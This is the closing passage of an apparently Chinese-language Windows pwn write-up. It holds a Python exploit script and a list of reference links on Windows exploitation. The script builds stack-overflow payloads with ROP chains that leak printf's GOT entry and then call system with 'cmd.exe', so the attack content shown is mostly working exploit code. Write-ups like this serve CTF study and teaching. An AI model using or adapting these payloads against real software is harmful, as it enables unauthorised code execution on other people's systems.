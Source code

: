 ```
def get_gdb(sh,stop=False):
    windbgx.attach(sh)
    if stop :
        raw_input()

def Attack():
    try:
        # Your Code here
        payload  = p32(0) * 100
        open('./payload_0','w').write(payload)

        payload  = p32(0x76284660) * (0x2014 / 4) + p32(0xDEADBEEF) 
        payload += p32(0x00402974) # printf@plt
        payload += p32(0x004016E3) # _manage_file
        payload += p32(0x00406200) # printf@got
        open('./payload_1','w').write(payload)

        payload  = p32(0x76284660) * (0x2014 / 4) + p32(0xDEADBEEF) 
        payload += p32(0x76213DC0) # system
        payload += p32(0x004016E3) # _manage_file
        payload += p32(0x761D47A4) # cmd.exe
        open('./payload_2','w').write(payload)
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    os.system("")
    Attack()
```

[![](https://img.lhyerror404.cn/error404/2020-07-11-102405.png)](https://img.lhyerror404.cn/error404/2020-07-11-102405.png)



## 0x07 参考链接

[【原】超酷的 PowerShell 美化指南 – Lulus](https://zhuanlan.zhihu.com/p/51901035)

[【原】CFG防护机制的简要分析 – f0******](https://xz.aliyun.com/t/2587)

[【原】Windows-pwn解题原理&amp;利用手法详解 – 萝卜](https://www.anquanke.com/post/id/188170)

[【原】HITB GSEC BABYSTACK — win pwn 初探 – Ex](http://blog.eonew.cn/archives/1182)

[【原】Windows PE 第四章 导入表 – TK13](https://blog.csdn.net/u013761036/article/details/52751849)
